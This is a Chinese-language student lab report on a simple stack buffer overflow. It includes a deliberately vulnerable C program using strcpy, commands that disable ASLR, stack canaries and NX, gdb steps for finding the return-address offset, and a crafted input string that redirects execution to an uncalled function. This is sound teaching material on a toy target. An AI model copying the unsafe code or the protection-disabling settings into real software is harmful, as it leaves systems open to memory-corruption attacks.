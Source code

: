 # [栈溢出简单实验——Enjun Du](https://github.com/EnjunDu/Introduction-to-Net-Security-Lab---Stack-Overflow)

## 实验分析



### 实验原理

栈被用于实现函数的调用以及存储局部变量，当使用诸如strcpy、gets等不安全函数时，攻击者通过向栈中某个变量写入的字节数超过了这个变量本身所申请的字节数，使得数据向高地址存储区域进行覆盖来修改返回地址，最终让程序根据攻击者的想法运行，这种攻击被称为栈溢出攻击

### 实验目的

了解栈溢出攻击原理，并实现简单栈溢出攻击实验

![image.png](https://s2.loli.net/2024/07/03/2AK37EZWNygmMhw.png)

### 实验思路

1. 编写程序，在主函数中调用func_call函数，但不调用inject函数
2. 在func_call函数中使用strcpy函数对param数组进行赋值
3. 攻击者通过对程序进行反汇编（可以使用gdb工具）查看汇编指令，通过不断修改input数组来将func_call函数的返回地址覆盖为指定值，最终使inject函数被调用

![image.png](https://s2.loli.net/2024/07/03/olXgCPWuf5FwEmN.png)

### 注意事项

为了成功执行攻击，需要关闭Ubuntu系统中的一系列保护机制，具体可在终端中输入：

* `sudo apt-get install gcc-multilib`，代表支持交叉编译cross-compiling，例如可以在64位处理器上处理32位程序
* `sudo sysctl -w kernel.randomize_va_space=0`，代表关闭进程空间地址随机化功能
* 使用 `gcc -Wall -g -o StackOverflow StackOverflow.c -fno-stack-protector -z execstack -m32` 编译程序，其中-g代表关闭所有优化机制，-fno-stack-protector代表关闭Stack Canary保护，-z execstack代表禁用NX（No-eXecute protect）保护，-m32代表在编译阶段将编译目标指定为32 位

## 实验准备——solved by Enjun Du

### 硬件环境

```
磁盘驱动器：NVMe KIOXIA- EXCERIA G2 SSD
NVMe Micron 3400 MTFDKBA1TOTFH
显示器：NVIDIA GeForce RTX 3070 Ti Laptop GPU
系统型号	ROG Strix G533ZW_G533ZW
系统类型	基于 x64 的电脑
处理器	12th Gen Intel(R) Core(TM) i9-12900H，2500 Mhz，14 个内核，20 个逻辑处理器
BIOS 版本/日期	American Megatrends International, LLC. G533ZW.324, 2023/2/21
BIOS 模式	UEFI
主板产品	G533ZW
操作系统名称	Microsoft Windows 11 家庭中文版
```

### 软件环境

```
VMware Workstation Pro
Ubuntu 18.04.6 LTS
Red Panda Dev-C++
```

## 开始实验

### 实验代码

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

char input[] = "11112222333344445555666677778888";

void inject(){
 printf("*****inject success*****\n");
}

void func_call(){
 char param[16];
 strcpy(param,input);
}

int main(int argc,char** argv){ 
 func_call();
 printf("main exit...\n");
 return 0;
}
```

1. \1. 首先在dev上编辑C语言代码StackOverflow.c如上

2. 接下来为了成功执行攻击，需要关闭Ubuntu系统中的一系列保护机制：

   * 在命令行运行cd /home/sky/Desktop将地址定位在目标文件层
   * 在终端输入sudo apt-get install gcc-multilib，代表支持交叉编译cross-compiling，例如可以在64位处理器上处理32位程序
   * 在终端输入sudo sysctl -w kernel.randomize_va_space=0，代表关闭进程空间地址随机化功能
   * 使用 gcc -Wall -g -o StackOverflow StackOverflow.c -fno-stack-protector -z execstack -m32 编译程序，其中-g代表关闭所有优化机制，-fno-stack-protector代表关闭Stack Canary保护，-z execstack代表禁用NX（No-eXecute protect）保护，-m32代表在编译阶段将编译目标指定为32 位

3. 对程序分析可知，其将在第15行执行输出操作，故我们将断点设置在15行。接下来使用gdb程序对该代码进行调试

   * 首先使用如下代码安装gdb

     ```python
     sudo apt update
     sudo apt install gdb
     ```

   * 在终端输入 gdb StackOverflow 开启调试
     ![image.png](https://s2.loli.net/2024/07/03/2VIume3T1Pswky7.png)

     

4. 根据分析代码，我们发现关键代码在13行，故在13行设置断点。我们输入命令：break  13。
   ![image.png](https://s2.loli.net/2024/07/03/B8HCPynamgcQ3zu.png)

5. 然后输入命令run 代表运行程序至断点处
   ![image.png](https://s2.loli.net/2024/07/03/A43gNRu1Utl7soC.png)

6. 输入disassemble后回车
   结果如下：
   ![image.png](https://s2.loli.net/2024/07/03/cxNOVuQGhe51JoE.png)
   **=>这一行即为断点（13行)的步骤行。**

7. 输入info registers ebp esp来查看寄存器里的栈顶指针和栈底指针
   ![image.png](https://s2.loli.net/2024/07/03/GxSRyAmla2YPipD.png)

8. 然后输入 print&param来查看param数组的首地址
   ![image.png](https://s2.loli.net/2024/07/03/QakZYVf8OUgPB5d.png)

9. \9. 输入 `x/2xw 0xffffd1a8`来查看该func_call函数的返回地址，在这个命令中，"x" 是一个 GDB 命令，它是 "examine memory" 的缩写，用于检查内存中的内容。"/2xw" 是一个格式化参数，它告诉 GDB 以十六进制格式显示两个字（32位）的内容，并将其解释为一个有符号整数。"0xffffd1a8" 是内存地址，表示我们要查看的内存位置。
   ![image.png](https://s2.loli.net/2024/07/03/CDNmOWRhMsgGv7o.png)

10. 然后输入disassemble main来反汇编main函数。
    ![image.png](https://s2.loli.net/2024/07/03/gCpST7F5xnJcZID.png)

11. 可以看到 func_cal函数的**返回地址0x565556c6指向main函数里的<+31>，其and所指的位置是<+4>**

12. 输入print&inject来查看inject函数的地址
    ![image.png](https://s2.loli.net/2024/07/03/ZNlgi465YJwDSnQ.png)

    ​	现在我们分析所获取到的信息：func_cal函数的返回地址为0xffffd1ac（0xffffd1a8+0x4），。param 的首地址为0xffffd190,两者相差28个字节。查看到inject函数地址为0x5655554d,因此可以将input输入更改为“28个字节+4位inject地址”。故将input修改为char input[] = "AAAAABBBBBCCCCCDDDDDEEEEEFFF\x4d\x55\x55\x56";后重新编译程序

13. 在代码中修改input后重新编译程序
    ![image.png](https://s2.loli.net/2024/07/03/HETBnRgaZQFiXGf.png)

    ###  如上图所示，攻击完成。

    ## 结论和体会

    ​	在本次实验中，我深入了解并实践了栈溢出攻击的原理与技术。通过设计和实施一个简单的栈溢出攻击，我不仅加深了对程序内存布局和操作系统安全机制的理解，还学会了如何在实际环境中利用软件漏洞。

    ​	实验的过程中，我首先在Ubuntu系统下编写了一个简单的C程序，该程序包含了易受栈溢出攻击的漏洞。通过精心构造输入数据，我成功引导程序执行了未授权的inject函数，从而实现了攻击目标。实验过程中，我关闭了操作系统的几项安全保护机制，如地址空间布局随机化（ASLR）、栈保护等，以模拟一个容易受到攻击的环境。

    通过本次实验，我学习到了几个重要的技术和概念：

    ​	1.栈溢出的原理：了解了栈溢出是如何通过覆盖函数的返回地址来控制程序流程的。

    ​	2.安全保护机制的重要性：实验中需要关闭的安全保护机制说明了这些机制在防御栈溢出攻击中的重要作用。

    ​	3.调试和分析工具的应用：通过使用gdb调试工具和其它命令行工具，我学会了如何分析程序的内存布局和识别潜在的安全漏洞。

    ​	这次实验不仅加强了我的理论知识，也提高了我的实践技能，让我对计算机安全领域有了更深刻的理解。我认识到，编写安全的代码需要程序员具备深厚的安全意识和技能，以及对各种攻击技术和防御策略的熟悉。未来，我希望能够继续深入研究这一领域，为创建更安全的软件环境做出贡献。
